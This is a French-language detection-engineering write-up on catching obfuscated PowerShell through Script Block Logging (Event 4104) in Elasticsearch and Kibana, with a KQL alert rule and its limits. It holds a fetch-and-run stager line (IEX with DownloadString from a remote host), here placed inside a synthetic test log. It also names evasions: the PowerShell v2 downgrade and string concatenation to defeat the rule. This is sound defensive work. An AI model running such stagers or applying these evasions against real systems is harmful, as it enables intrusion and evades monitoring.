




# Cas 02 - PowerShell Script Block Logging : détection de code obfusqué

## Technique ATT&CK

- **T1059.001** - Command and Scripting Interpreter: PowerShell (Execution, TA0002)
- **T1027** - Obfuscated Files or Information (Defense Evasion, TA0005)

## Hypothèse de détection

Un attaquant qui utilise `-EncodedCommand` ou d'autres méthodes d'obfuscation pour exécuter un payload PowerShell cherche à masquer son intent au niveau de la ligne de commande. Le **Script Block Logging** (Event ID 4104) contourne ce masquage : Windows enregistre le code PowerShell **après déobfuscation**, juste avant son exécution en mémoire. Cet event contient donc le code réel, même si la ligne de commande visible est encodée en base64.

L'hypothèse : la présence dans `ScriptBlockText` de patterns associés à l'exécution de code dynamique téléchargé (`IEX`, `Invoke-Expression`, `DownloadString`) ou à l'encodage base64 (`FromBase64String`, `-EncodedCommand`) est suffisamment discriminante pour justifier une alerte High.

## Data source

- **Event ID Windows 4104** - Script Block Logging
- **Channel** : `Microsoft-Windows-PowerShell/Operational`
- **Champ discriminant** : `winlog.event_data.ScriptBlockText`

Ce data source présente une fiabilité élevée pour les payloads obfusqués : le Script Block Logging capture le code après désobfuscation, ce qui rend les tentatives d'évasion par encodage inefficaces. Sa limitation principale est son activation par GPO (désactivée par défaut avant Windows 10 RS3) et sa vulnérabilité au downgrade PowerShell v2 (voir section Limites).

## Méthode de test

Test réalisé par **injection synthétique** d'un log Event 4104 directement dans Elasticsearch. Le contenu de `ScriptBlockText` simule un stager typique : appel à `Invoke-Expression` combiné à un `DownloadString` depuis une URL distante.

```bash
curl -s -X POST "https://localhost:9200/soc-winlogbeat-test/_doc" \
  -H "Content-Type: application/json" \
  -u "elastic:<ELASTIC_PASSWORD>" \
  --cacert /etc/elasticsearch/certs/http_ca.crt \
  -d '{
    "@timestamp": "'"$(date -u +%Y-%m-%dT%H:%M:%S.000Z)"'",
    "winlog": {
      "channel": "Microsoft-Windows-PowerShell/Operational",
      "event_id": "4104",
      "computer_name": "DFIR-PC",
      "event_data": {
        "ScriptBlockText": "IEX (New-Object Net.WebClient).DownloadString('"'"'http://192.168.1.100/stager.ps1'"'"')",
        "Path": ""
      }
    },
    "agent": { "name": "DFIR-PC" },
    "host": { "name": "DFIR-PC" }
  }'
```

Cette injection valide la logique de la règle sur la structure réelle du champ `ScriptBlockText`. Elle ne teste pas la capacité du Script Block Logging à capturer un vrai payload obfusqué en conditions d'exécution live.

## Vérification dans Discover

Le log injecté apparaît dans Kibana Discover avec le champ `winlog.event_data.ScriptBlockText` contenant le code synthétique attendu.



## Règle custom

Nom : **PowerShell - Suspicious Script Block Content (SBL)**

```kql
winlog.channel : "Microsoft-Windows-PowerShell/Operational" and
winlog.event_id : "4104" and
winlog.event_data.ScriptBlockText : (
  "*IEX*" or
  "*Invoke-Expression*" or
  "*DownloadString*" or
  "*FromBase64String*" or
  "*-EncodedCommand*"
)
```

- **Langage** : KQL
- **Rule type** : Query
- **Severity** : High
- **Risk score** : 73
- **Index pattern** : `soc-winlogbeat*`





Le mapping MITRE configuré : Defense Evasion (TA0005) > Obfuscated Files or Information (T1027) et Execution (TA0002) > Command and Scripting Interpreter (T1059) > PowerShell (T1059.001).

## Validation

La règle a généré **1 alerte High** sur l'hôte `DFIR-PC`.



## Limites et contournements

**Downgrade PowerShell v2 - bypass critique.** C'est la limite la plus importante de cette approche. Si l'attaquant lance PowerShell avec `-Version 2` (disponible sur tous les systèmes Windows disposant du .NET Framework 2.0), le moteur PowerShell v2 est utilisé. Or, Script Block Logging a été introduit dans PowerShell v5 : l'Event ID 4104 **n'est jamais émis** en PowerShell v2. La règle ne reçoit aucun event à analyser, quel que soit le contenu du script. Détecter ce downgrade nécessite une règle complémentaire sur les events 400 ou 600 du channel `Windows PowerShell` (le "classic" PowerShell log), qui contiennent l'`EngineVersion`.

**Faux positifs potentiels sur des outils légitimes.** Des outils d'administration ou de déploiement (ex. scripts d'automatisation Ansible, déploiements SCCM) peuvent légitimement utiliser `DownloadString` ou `Invoke-Expression`. Un tuning par exclusion sur `ScriptBlockText` (filtre sur des patterns légitimes connus) ou sur `host.name` serait nécessaire en production.

**Obfuscation avancée non couverte.** Les patterns recherchés (`IEX`, `DownloadString`, etc.) sont les formes canoniques. Des obfuscations comme la concaténation de strings (`"IE"+"X"`), la substitution de caractères, ou l'utilisation de `[System.Reflection.Assembly]::Load` sans `IEX` contournent cette règle. Une couverture plus robuste nécessiterait une analyse comportementale (ML) ou une liste de patterns plus exhaustive.
